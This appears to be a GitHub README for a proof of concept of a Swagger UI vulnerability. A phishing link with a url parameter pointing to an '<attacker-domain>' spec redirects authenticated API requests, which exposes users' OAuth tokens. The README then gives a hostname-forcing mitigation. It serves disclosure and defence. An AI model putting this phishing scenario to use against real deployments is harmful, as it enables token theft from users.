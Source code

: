 # PoC for a Swagger UI XSS vulnerability

## Reproduction

This XSS follows the following scenario:

1. User is sent a phishing link of the following form:

   ```
   https://<legitimate-domain>/?url=https://<attacker-domain>/api-docs.yaml
   ```

   Note that `https://<attacker-domain>/api-docs.yaml` can be an _exact copy_ of `https://<legitimate-domain>/api-docs.yaml`, to spoof it for the user.

2. User authenticates over OAuth, and gets redirected back to `https://<legitimate-domain>/?url=https://<attacker-domain>/api-docs.yaml`.
3. User submits an API request to the server using Swagger UI.
4. Observe in the browser Network tab and in the Curl command that the authenticated request is actually sent to `https://<attacker-domain>`, instead of `https://<legitimate-domain>`. As such, the attacker can capture and exploit a valid user token produced by Google for the legitimate domain.

## Mitigation

Until (and if) this issue is addressed upstream by the Swagger UI team, please add the following parameter to the Swagger UI config:

```js
requestInterceptor: req => {
  req.hostname = window.location.hostname;
  return req;
},
```

As an example, please see how it's implemented in [index.html](index.html).
You can serve this example locally using `node index.js`.
